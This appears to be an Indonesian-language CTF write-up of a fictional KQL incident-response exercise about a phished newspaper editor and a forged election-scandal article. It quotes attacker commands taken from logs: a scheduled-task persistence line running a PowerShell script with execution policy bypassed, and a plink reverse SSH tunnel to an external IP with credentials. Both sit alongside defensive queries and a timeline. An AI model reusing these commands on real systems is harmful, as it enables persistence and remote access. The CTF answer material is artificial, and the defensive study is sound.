









# Section 1: Welcome to Valdoria

- Tanggal mulai: 2026-11-27
- Role: Cyber Incident Responder
- Status: done (12/12 question)

## Narasi
Menjelang malam pemilu, Nene Leaks (editor The Valdorian Times) kaget pas koran-nya menerbitkan artikel skandal yang menuduh Luffy (kandidat politik) korupsi — tuduhan land deal scandal & nerima suap buat dorong kebijakan yang merusak lingkungan, kontras banget sama citra publiknya yang dikenal environmental activist. Masalahnya, artikel ini gak pernah di-approve sama editor — ini publikasi palsu/tanpa izin.

Kita direkrut jadi cyber incident responder buat investigasi gimana artikel palsu ini bisa kepublish: apakah hack, insider, atau yang lain.

## Tables yang dipakai
Lihat [notes.md](./notes.md)

## Investigasi Awal (sebelum masuk Section 2)
Section ini sendiri cuma tutorial KQL 101 (12 soal), tapi sambil latihan, udah mulai keliatan jejak serangannya dari data yang ada:

- The Valdorian Times punya 100 karyawan dengan 24 role berbeda.
  
  
- Fokus investigasi ada di 3 karyawan: **Nene Leaks** (Editorial Director, `10.10.0.17`), **Lois Lane** (Director of News Operations, `10.10.0.22`), dan **Mary Barra** (HR Specialist, `10.10.0.50`).
  
  
- Dari email yang diterima Nene Leaks, ada 3 email dengan verdict **SUSPICIOUS**, salah satunya nyisipin link ke `http://hirerecruit.org/search/online/published/Stop_Being_So_Broke_Get_Money_Now.docx`.
  
- Ada 9 IP berbeda yang sempat mengakses `hirerecruit.org`, salah satunya IP Nene (`10.10.0.17`).
  
- Dari `ProcessEvents` username `neleaks`: WINWORD.EXE buka file `Stop_Being_So_Broke_Get_Money_Now.docx` yang di-download, lalu muncul script PowerShell `C:\ProgramData\hacktivist_manifesto.ps1` yang dieksekusi.
  
- Persistence dibuat lewat scheduled task:
  ```
  schtasks /create /sc hourly /mo 5 /tn "Hacktivist Manifesto" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\hacktivist_manifesto.ps1"
  ```
  biar script-nya rutin jalan tiap 5 jam sekali.
- Dilanjut discovery/recon (`whoami`, `ipconfig`, `arp -a`, `tasklist /svc`, `net view`) dan RCE lewat SSH reverse tunnel:
  ```
  plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 193.224.154.119
  ```
  
  
- IP attacker (`193.224.154.119`) sebelum RCE udah 2x akses portal berita publik (`valdoriantimes.news/search=...`), baru setelah itu beralih akses ke area internal: `https://sharepoint.valdoriantimes.news/editorial_meeting_minutes/2024/Q1/`.
  

**Timeline:**
| Waktu (UTC) | Event |
|---|---|
| 2024-01-03 08:48:23 | Nene klik link phishing di email |
| 2024-01-03 08:48:43 | `hacktivist_manifesto.ps1` di-run |
| 2024-01-03 08:48:44 | File `.ps1` dibuat |
| 2024-01-03 11:06:17 | RCE via `plink.exe` reverse SSH tunnel ke `193.224.154.119` |

### Query investigasi
```kql
Employees
| where name contains "nene" or name contains "lois" or name contains "mary"

Email
| where recipient contains "nene_leaks@valdoriantimes.news"
| sort by verdict

OutboundNetworkEvents
| where url contains "hirerecruit.org"
| distinct src_ip

ProcessEvents
| where username contains "neleaks"

InboundNetworkEvents
| where src_ip contains "193.224.154.119"
```

## Query yang dipakai (jawab soal)
```kql
Employees
| take 10

Employees
| count

Employees
| where role contains "Editorial Director"

Email
| where recipient contains "nene_leaks@valdoriantimes.news"
| count

Email
| where sender contains "weprinturstuff.com"
| distinct sender
| count

Employees
| where name contains "lois"

OutboundNetworkEvents
| where src_ip contains "10.10.0.22"
| distinct url
| count

PassiveDns
| where domain contains "hire"
| distinct domain
// | count

PassiveDns
| where domain == "jobhire.org"

Employees
| where name has "Mary"

OutboundNetworkEvents
| where src_ip == "10.10.0.50"
| distinct url

AuthenticationEvents
| where username contains "mabarra"
```

## Daftar question
- [x] [Q1](./q1.md)
- [x] [Q2](./q2.md)
- [x] [Q3](./q3.md)
- [x] [Q4](./q4.md)
- [x] [Q5](./q5.md)
- [x] [Q6](./q6.md)
- [x] [Q7](./q7.md)
- [x] [Q8](./q8.md)
- [x] [Q9](./q9.md)
- [x] [Q10](./q10.md)
- [x] [Q11](./q11.md)
- [x] [Q12](./q12.md)
